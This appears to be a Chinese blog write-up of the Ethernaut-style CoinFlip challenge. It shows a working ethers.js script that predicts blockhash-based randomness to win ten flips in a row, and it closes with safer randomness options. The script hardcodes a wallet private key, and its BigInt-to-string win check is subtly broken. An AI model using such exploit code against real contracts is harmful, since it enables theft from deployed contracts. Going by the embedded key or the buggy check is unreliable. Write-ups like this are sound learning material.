

猜硬币游戏。

使用心灵感应的能力，十次猜对硬币正反即可通过233

<!--more-->

提示是也许要离开控制台进行操作。比如写一个js脚本？


代码已经可见随机数的计算过程了，通过

```
uint256 blockValue = uint256(blockhash(block.number - 1));
```

来获取一个随机数。即计算前一个区块的哈希。


## 解决方案1

使用js写一个脚本：

```js
const { ethers } = require("ethers");

function getConfig(contractAddress) {
  const provider = new ethers.JsonRpcProvider(`https://sepolia.infura.io/v3/<your-api-key>`);
  const wallet = new ethers.Wallet("65addf4028c7ad097b5624235ca335aa6518629e5bd709975a7fea5c00203e2f", provider);

  const abi = [
    {
      inputs: [],
      stateMutability: "nonpayable",
      type: "constructor",
    },
    {
      inputs: [],
      name: "consecutiveWins",
      outputs: [
        {
          internalType: "uint256",
          name: "",
          type: "uint256",
        },
      ],
      stateMutability: "view",
      type: "function",
    },
    {
      inputs: [
        {
          internalType: "bool",
          name: "_guess",
          type: "bool",
        },
      ],
      name: "flip",
      outputs: [
        {
          internalType: "bool",
          name: "",
          type: "bool",
        },
      ],
      stateMutability: "nonpayable",
      type: "function",
    },
  ];

  const contract = new ethers.Contract(contractAddress, abi, wallet);
  return { provider, wallet, contract };
}

const CONTRACT_ADDRESS = "0xd21595e895afFB477036a5674Fe717B073FC12bF"; // 替换为你的合约地址
const FACTOR = ethers.toBigInt("57896044618658097711785492504343953926634992332820282019728792003956564819968");
async function main() {
  const { provider, wallet, contract } = getConfig(CONTRACT_ADDRESS);

  let lastBlockNumber = 0
  while (true) {
    const blockNumber = await provider.getBlockNumber();
    if (blockNumber === lastBlockNumber) {
      continue;
    }
    lastBlockNumber = blockNumber;
    const blockHash = (await provider.getBlock(blockNumber)).hash;
    const blockValue = ethers.toBigInt(blockHash);
    console.log("blockValue:", blockValue);

    let coinFlip = blockValue / FACTOR;
    let side = coinFlip == 1 ? true : false;
    console.log("side:", side);

    try {
      const tx = await contract.flip(side);
      console.log("tx:", tx.hash);
      await tx.wait();
      console.log("tx mined");
    } catch (e) {
      console.log("tx failed");
      continue;
    }

    const result = await contract.consecutiveWins();
    console.log("consecutiveWins:", result.toString());
    console.log("===================================");

    if (result === "10") {
      console.log("Congratulations! You've won 10 times in a row!");
      break;
    }
  }
}

main();
```

但是，我试了两次，都是连续9次猜对之后出问题？

我感觉可能有点时间问题，比如我猜出答案到我发送tx，中间可能隔了两个区块之类的，这样就会出问题了。

一个暴力的解决方法：加钱，给更多gasPrice增加打包速度，保证不要超过两个区块，还算有效2333

```js
const tx = await contract.flip(side, {
	gasPrice: ethers.parseUnits("50", "gwei"),
});
```




## 解决方案2

GPT提供了另一个思路，写一个攻击智能合约，在攻击合约里调用这个合约，这可以保证他们的blocknumber一样，解决了时序问题。


# 总结

Solidity没提供原生的随机数方法。生成随机数的方法都是可见的。

也可以通过修改时间戳、blockhash等方式，让随机结果趋于对自己有利。


一些推荐随机数方案：

- 使用 **Chainlink VRF**：最安全可靠，但需要支付 LINK 费用。
- **RANDAO** 或其他去中心化方案：适合对去中心化和安全性要求高的场景。
- **Oraclize**：适合简单随机数生成，但依赖外部服务。
